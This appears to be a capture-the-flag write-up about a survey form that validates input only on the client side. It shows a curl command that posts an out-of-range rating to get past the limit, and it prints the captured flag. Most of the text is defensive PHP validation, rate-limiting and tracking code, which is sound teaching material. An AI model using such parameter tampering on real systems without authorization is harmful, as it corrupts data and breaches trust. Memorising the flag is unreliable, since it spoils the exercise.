 # Survey Form Input Validation Vulnerability

## 🎯 Overview
This vulnerability demonstrates insufficient server-side validation in a survey form, allowing manipulation of POST parameters to submit invalid values that should be restricted by the form's constraints.

## 🔍 Vulnerability Details
- **Endpoint**: `/index.php?page=survey`
- **Method**: POST
- **Parameters**: 
  - `sujet`: Survey topic ID
  - `valeur`: Rating value
- **Attack Vector**: POST parameter manipulation
- **Normal Range**: 1-10 rating scale
- **Exploited Value**: 42

## ⚔️ Exploitation Process

### 1. Form Analysis
```html
<!-- Original form structure -->
<select name="valeur">
    <option value="1">1</option>
    ...
    <option value="10">10</option>
</select>
```

### 2. Parameter Manipulation
```bash
# Exploit using cURL to bypass client-side restrictions
curl 'http://x.x.x.x/index.php?page=survey#' \
  --data 'sujet=2&valeur=42' \
  | grep 'flag is'
```

### Attack Result
**Flag**: 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa

## 🛡️ Security Issues Identified
1. No server-side validation
2. Reliance on client-side validation only
3. No input range checking
4. Missing rate limiting
5. No submission tracking

## 🔒 Recommended Security Fixes

### 1. Implement Server-Side Validation
```php
class SurveyValidator {
    private $allowedRange = [1, 10];
    
    public function validateRating($value) {
        $rating = intval($value);
        if ($rating < $this->allowedRange[0] || 
            $rating > $this->allowedRange[1]) {
            throw new InvalidArgumentException(
                'Rating must be between 1 and 10'
            );
        }
        return $rating;
    }
}
```

### 2. Rate Limiting Implementation
```php
class RateLimiter {
    private $redis;
    private $maxAttempts = 5;
    private $timeWindow = 3600; // 1 hour
    
    public function checkLimit($ipAddress) {
        $key = "survey_submission:{$ipAddress}";
        $attempts = $this->redis->incr($key);
        
        if ($attempts === 1) {
            $this->redis->expire($key, $this->timeWindow);
        }
        
        return $attempts <= $this->maxAttempts;
    }
}
```

### 3. Submission Tracking
```php
class SurveySubmission {
    public function recordSubmission($userId, $surveyId) {
        $stmt = $this->db->prepare("
            INSERT INTO survey_submissions 
            (user_id, survey_id, submission_date, ip_address)
            VALUES (?, ?, NOW(), ?)
        ");
        return $stmt->execute([
            $userId, 
            $surveyId, 
            $_SERVER['REMOTE_ADDR']
        ]);
    }
}
```

### 4. Security Measures Checklist
- [ ] Implement server-side validation
- [ ] Add rate limiting
- [ ] Track submissions by IP/user
- [ ] Validate all input parameters
- [ ] Implement CSRF protection
- [ ] Add logging mechanisms
- [ ] Set up monitoring alerts

## 📝 Best Practices

### Form Security
1. Always validate on server-side
2. Implement CSRF tokens
3. Rate limit submissions
4. Log suspicious activities
5. Track submission patterns

### Input Validation Example
```php
function processSurveySubmission($data) {
    // Validate topic ID
    if (!in_array($data['sujet'], $this->validTopics)) {
        throw new InvalidArgumentException('Invalid topic');
    }
    
    // Validate rating value
    if (!is_numeric($data['valeur']) || 
        $data['valeur'] < 1 || 
        $data['valeur'] > 10) {
        throw new InvalidArgumentException('Invalid rating');
    }
    
    // Check for duplicate submissions
    if ($this->hasRecentSubmission($_SERVER['REMOTE_ADDR'])) {
        throw new Exception('Too many submissions');
    }
}
```

## 📚 Additional Resources
- [OWASP Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)
- [Rate Limiting Best Practices](https://www.nginx.com/blog/rate-limiting-nginx/)
- [Form Security Guidelines](https://www.owasp.org/index.php/Web_Application_Security_Testing_Guide)

## ⚠️ Disclaimer
This documentation is for educational purposes only. Always obtain proper authorization before testing security measures on any system.